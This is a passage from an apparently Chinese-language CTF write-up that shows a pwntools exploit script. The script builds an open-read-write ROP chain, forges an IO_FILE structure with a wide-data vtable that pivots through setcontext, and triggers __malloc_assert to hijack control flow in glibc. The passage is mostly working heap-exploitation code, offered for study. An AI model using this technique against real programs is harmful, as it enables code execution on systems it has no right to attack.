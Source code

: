    ```py
   orw+=p64(read_addr)     
   
   # write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi_ret)+p64(1)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(write_addr)
   
   
   # ========== 伪造IO_FILE ==========
   chunk_addr = heap_addr + 0x2760     #当前large bin 的地址
   
   file = p64(0) + p64(0)                  #_IO_read_end    _IO_read_base
   file+= p64(0) + p64(0) + p64(0) #_IO_write_base  _IO_write_ptr _IO_write_end
   file+= p64(0) + p64(0)                  #_IO_buf_base    _IO_buf_end
   file+= p64(0) * 8                       #_IO_save_base ~ _codecvt
   file+= p64(heap_addr) + p64(0)*2        #_lock   _offset  _codecvt
   file+= p64(chunk_addr + 0xe0)           #_wide_data
   file+= p64(0) *3                        #_freeres_list ~ __pad5
   file+= p64(0) + p64(0)*2                # _mode  _unused2 (2dword)
   
   file+=p64(IO_wfile_jumps_addr + 0x10)   #vtable
   
   # ========== _IO_wide_data_2 ==========
   _wide_vtable = chunk_addr + 0xf0
   rdx_data     = chunk_addr + 0xf0
   stack_change = chunk_addr + 0x1d0
   
   file+= p64(0)*3                                      #_IO_read_ptr   _IO_read_end  _IO_read_base
   file+= p64(1) + p64(rdx_data) + p64(setcontext_addr) #_IO_write_base _IO_write_ptr _IO_write_end
   file+= p64(0) * 16 + p64(stack_change) + p64(ret)
   file+= p64(0) * 4
   file+= p64(_wide_vtable)          #_wide_vtable
   file+= p64(0)   #填充
   
   # ========== stack change ==========
   file+= orw
   debug()
   edit(0,file)
   add(0x4b0,15)   # 触发 __malloc_assert
   run()
   p.interactive()
   ```

   伪造的IO_FILE如下：

   ![image-20240906185314179](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061853384.png)

   ![image-20240906185423457](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061854533.png)

   ![image-20240906185516779](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061855889.png)
